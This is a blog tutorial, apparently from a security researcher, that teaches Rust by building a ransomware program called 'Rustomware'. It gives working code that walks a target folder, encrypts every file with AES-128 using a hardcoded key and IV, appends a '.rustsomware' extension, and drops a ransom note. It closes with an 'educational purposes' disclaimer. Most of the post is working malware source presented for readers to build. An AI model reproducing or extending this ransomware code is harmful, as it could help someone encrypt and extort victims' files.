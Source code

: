 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
readtime: true
comments: true
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in Rust. Later on, I ran into trickster0's amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and that gave me more motivation to learn Rust. Nowadays I'm creating a unique C2 framework written (mostly) in Rust. If you are familiar with Rust, you can skip to Part 2 below.

The whole code for this blog post is available on my [GitHub](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is an awesome language is that it's a powerful compiler, has memory safety, easy syntax and great interaction with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end, it helps the developer to create safer programs. On the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debugging) and will be called rustomware.exe. You'll notice that there are a few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here but in general the Cargo.lock file contains the dependencies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory, we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive into coding our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result type that can be either Ok or Err. We also needed to clone the string because Rust needs to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with a hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption/decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use a hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate them yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use AES128 with Rust, pretty simple right?

As you saw, Rust has a simple interface with the file system that allows you to rename and do io operations easily. Because this is a simple example the function returns a boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a separate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to a variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to a file and if we want to do any changes just change the README file and recompile, no code editing is required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste of Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is available on my [GitHub](https://github.com/idov31), for any questions feel free to ask me on [Twitter](https://twitter.com/idov31).

## Disclaimer

I'm not responsible for any damage that may occur to your computer. This article is just for educational purposes and is not intended to be used in any other way.
